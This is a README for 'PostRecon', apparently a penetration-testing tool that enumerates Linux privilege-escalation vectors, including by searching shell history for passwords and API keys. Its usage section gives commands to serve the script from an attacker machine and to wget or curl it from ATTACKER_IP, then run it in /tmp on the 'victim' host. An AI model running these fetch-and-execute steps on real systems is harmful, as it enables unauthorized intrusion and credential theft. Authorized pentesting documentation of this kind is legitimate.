





# PostRecon 🔍

**PostRecon** is a lightweight, proprietary post-exploitation tool written in Python, designed to automate local reconnaissance on Linux systems.

It helps pentesters quickly identify potential **Privilege Escalation (PrivEsc)** vectors within seconds — without requiring sudo privileges.

---

## ⚡ Features

- 🔎 System information gathering (kernel, distro, hostname)
- 👤 User & privilege enumeration (UID, groups, sudo access)
- 📜 Shell history analysis (search for passwords, tokens, API keys)
- 🌐 Network inspection (listening ports)
- ⏰ Cron job analysis (misconfigurations & writable jobs)
- 🔐 Sensitive file permission checks
- 🚩 SUID binary discovery
- 📂 /tmp & /var/tmp analysis (common PrivEsc vectors)

---

## 🛠 Requirements

- Python 3.x
- Linux system

No additional dependencies required.

---

## 🚀 Installation & Usage

**on the attacker's machine:**
python3 -m http.server 8000 (Make sure the file postrecon.py is in the same directory!)

**on the victim's machine:**
cd /tmp
wget http://ATTACKER_IP:8000/postrecon.py
chmod +x postrecon.py
./postrecon.py

cd /tmp
curl -O http://ATTACKER_IP:8000/postrecon.py
chmod +x postrecon.py
./postrecon.py

---

## ⚠️ Security & Responsibility

- Do **NOT** use this tool on systems you do not own or have explicit permission to test  
- The author takes **no responsibility** for misuse or damage caused  
- Always follow **legal and ethical guidelines**

## 📸 Demo

